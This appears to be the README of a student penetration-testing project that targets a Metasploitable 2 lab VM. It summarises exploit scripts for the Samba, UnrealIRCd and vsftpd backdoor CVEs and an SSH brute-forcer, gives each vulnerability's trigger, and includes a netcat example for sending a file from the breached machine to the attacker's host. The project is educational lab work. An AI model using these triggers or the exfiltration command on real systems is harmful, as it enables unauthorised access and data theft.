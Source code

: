 # 4240project

## Description:
This project will show a few examples of system penetration. I will be using two virtual machines (both running Ubuntu linux version 22.04) with one running the Metasploitable 2 test environment (https://sourceforge.net/projects/metasploitable/). I have included four python scripts to explore four of the vulnerabilities present on the test environment. Once each script is run (following the proper execution) the user will have full access to the remote system.

When presenting these examples I will be going through these steps
- network scanning 
- vulnerbility assessment
- exploitation
- post-exploitation

## Purpose:
- The purpose of this project is to provide a deeper understanding for learning about system vulnerabilities and the exploitation techiniques used to exploit them. Instead of using the metasploit software to exploit the system vulnerabilites of metasploitable 2, I have created python scripts to do it instead. Doing this helps to gain a detailed explanation as to what is going on behind each exploit attempt. By viewing the documented python code, the user should have a further understanding of system security.

## System Requirements:
- Metasploitable 2
- Virtualbox 

## Exploits/Vulnerabilities:

### SAMBA CVE-2007-2447 
- Version: 3.0.20 < 3.0.25rc3
- Desc: Samba is a software that is a re-implmentation of the SMB networking protocol. This software provides file and print services for all clients as long as they are using the SMB protocol .
- Exploit: If Samba is configured to use the non-default username map script, anyone can send arbitrary commands in disguise as a username to the server. The command will then be run without needing authorization.

### UnrealRCD CVE-2010-2075
- Version: 3.2.8.1 
- Desc: UnrealRCD is a daemon for Internet Realy Chat usage in order to provide chat services.
- Exploit: UnrealRCD contains an exploit where it will execute any command send to the service if it begins with the string 'AB'. Ex: AB; [command to run]

### VSFTP CVE-2011-2523
- Version: 2.3.4
- Desc: VSFTP is an FTP server for linux. 
- Exploit: The exploit occurs when a user tries to login with a username that ends with ':)'. This opens a shell on port 6200, allowing the attacker unauthenticated access.

### SSH (BRUTE FORCE EXAMPLE)
- Version: Any.
- Desc: The SSH service allows for communication between a computer network. 
- Exploit: This is less of an exploit and more of poor system security. Users can prevent brute force attacks by incorporating a proper firewall to filter out ip addresses, using public key authentication, using strong and unqiue passwords, etc....

## Payload Examples:
- After gaining access to the remote system and starting a shell session, the user can manually use netcat to search for a specified file. Here is an example:
 - Open a terminal on the local host and run "nc -lnvp [portnum] > [file for info to be stored]"
 - On the remote machine (the breached machine) run the command " [IP of local machine] [portnum] < [file path to be retrieved]

# Guide To Testing:
- Samba:
 - Python3 samba.py
 - [RHOST] [RPORT] [LHOST] [LPORT]
- SSH:
 - Python3 sshBruteForce.py
 - "[RHOST]"
 - "[RPORT]"
- UnrealRCD:
 - Python3 unrealIRCD.py
 - [RHOST] [RPORT] [LHOST] [LPORT]
- VSFTP:
 - Python3 ftpExploit.py
 - [RHOST] [RPORT] [COMMAND]